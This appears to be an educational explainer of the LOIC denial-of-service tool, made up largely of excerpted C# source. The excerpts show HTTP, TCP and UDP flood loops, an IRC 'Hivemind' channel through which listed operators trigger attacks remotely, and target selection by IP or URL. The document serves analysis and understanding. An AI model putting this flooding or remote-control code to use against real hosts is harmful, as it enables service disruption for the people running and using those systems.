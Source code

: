 # LOIC Code Explanation

This document explains the key functionality of LOIC with code snippets to demonstrate how it works. The purpose is to understand the tool's capabilities for educational purposes without encouraging misuse.

## Key Components

### 1. Attack Methods

LOIC has several attack methods, with the main ones being:

#### HTTP Flooding (HTTPFlooder.cs)
```csharp
// Creates random HTTP headers to send to the target
byte[] buf = Functions.RandomHttpHeader((UseGet ? "GET" : "HEAD"), Subsite, Host, Random, AllowGzip);

// Sends the request
socket.Send(buf, SocketFlags.None);
State = ReqState.Downloading; Requested++; 

// Optionally waits for response
if (Resp)
{
    socket.ReceiveTimeout = Timeout;
    socket.Receive(recvBuf, recvBuf.Length, SocketFlags.None);
}
```

#### TCP/UDP Flooding (XXPFlooder.cs)
```csharp
// TCP flooding
while (this.IsFlooding)
{
    Requested++;
    byte[] buf = System.Text.Encoding.ASCII.GetBytes(String.Concat(Data, (AllowRandom ? Functions.RandomString() : "")));
    socket.Send(buf);
    if (Delay >= 0) System.Threading.Thread.Sleep(Delay + 1);
}

// UDP flooding
while (this.IsFlooding)
{
    Requested++;
    byte[] buf = System.Text.Encoding.ASCII.GetBytes(String.Concat(Data, (AllowRandom ? Functions.RandomString() : "")));
    socket.SendTo(buf, SocketFlags.None, RHost);
    if (Delay >= 0) System.Threading.Thread.Sleep(Delay + 1);
}
```

### 2. "Hivemind" IRC Control (frmMain.cs)

The Hivemind feature allows LOIC to be controlled remotely via IRC:

```csharp
// Setting up IRC client
irc = new IrcClient();
irc.OnConnected += IrcConnected;
irc.OnReadLine += OnReadLine;
irc.OnChannelMessage += OnMessage;
// ... other event handlers

// Connecting to IRC server
int port;
if (!int.TryParse(txtIRCport.Text, out port)) port = 6667;
irc.Connect(txtIRCserver.Text, port);
channel = txtIRCchannel.Text.ToLowerInvariant();

irc.Login("LOIC_" + Functions.RandomString(), "Newfag's remote LOIC", 0, "IRCLOIC");

// Command parsing from IRC messages
void OnMessage(object sender, IrcEventArgs e)
{
    if (e.Data.Channel.ToLowerInvariant() == channel)
    {
        if (e.Data.Message.StartsWith("!lazor "))
        {
            //authenticate
            if (OpList != null && OpList.ContainsKey(e.Data.Nick))
            {
                List<string> pars = new List<string>(e.Data.Message.Split(' '));
                SetStatus("Controlled by "+e.Data.Nick);
                try
                {
                    txtTargetIP.Invoke(new CheckParamsDelegate(CheckParams), pars);
                }
                catch
                { }
            }
        }
    }
}
```

### 3. Target Selection (frmMain.cs)

LOIC allows targeting via IP address or URL:

```csharp
// Targeting by IP
private void LockOnIP(bool silent = false)
{
    try
    {
        string tIP = txtTargetIP.Text.Trim().ToLowerInvariant();
        if(tIP.Length == 0)
        {
            Wtf ("I think you forgot the IP.", silent);
            return;
        }
        try
        {
            txtTarget.Text = sTargetHost = sTargetIP = IPAddress.Parse(tIP).ToString();
            if(sTargetHost.Contains(":"))
            {
                sTargetHost = "[" + sTargetHost.Trim('[', ']') + "]";
            }
        }
        catch(FormatException)
        {
            Wtf ("I don't think an IP is supposed to be written like THAT.", silent);
            return;
        }
    }
    catch(Exception ex)
    {
        Wtf (ex.Message, silent);
        return;
    }
}

// Targeting by URL
private void LockOnURL(bool silent = false)
{
    try
    {
        string tURL = txtTargetURL.Text.Trim().ToLowerInvariant();
        if(tURL.Length == 0)
        {
            Wtf ("A URL is fine too...", silent);
            return;
        }
        if(!tURL.Contains("://"))
        {
            tURL = String.Concat("http://", tURL);
        }
        try
        {
            tURL = new Uri(tURL).Host;
            txtTarget.Text = sTargetIP = (Functions.RandomElement(Dns.GetHostEntry(tURL).AddressList) as IPAddress).ToString();
            txtTargetURL.Text = sTargetHost = tURL;
        }
        catch(UriFormatException)
        {
            Wtf ("I don't think a URL is supposed to be written like THAT.", silent);
            return;
        }
        catch(SocketException)
        {
            Wtf ("The URL you entered does not resolve to an IP!", silent);
            return;
        }
    }
    catch(Exception ex)
    {
        Wtf (ex.Message, silent);
        return;
    }
}
```

## Important Notes About LOIC's Design

### 1. No IP Hiding
LOIC makes no attempt to hide the user's IP address. This means:
- All attacks are easily traceable back to the attacker
- The user's identity is fully exposed to the target

### 2. Simple Attack Methods
LOIC uses basic flooding techniques that:
- Are easily detected by modern security systems
- Can be quickly blocked by firewalls
- Don't employ sophisticated evasion techniques

### 3. Warning in Code
The code itself contains warnings about potential legal consequences:

```csharp
/* LOIC - Low Orbit Ion Cannon
 * Released to the public domain
 * Enjoy getting v&, kids.
 */
```

The term "v&" is slang for "vanned" - meaning arrested by authorities.

## Conclusion

LOIC is a relatively simple network stress testing tool that:
1. Uses basic flooding techniques
2. Makes no attempt to hide the user's identity
3. Can be controlled remotely through IRC
4. Contains explicit warnings about legal consequences

Modern security systems can easily detect and block LOIC attacks, and the tool's design makes it trivial to identify the attacker. This analysis is provided purely for educational purposes to understand how such tools function.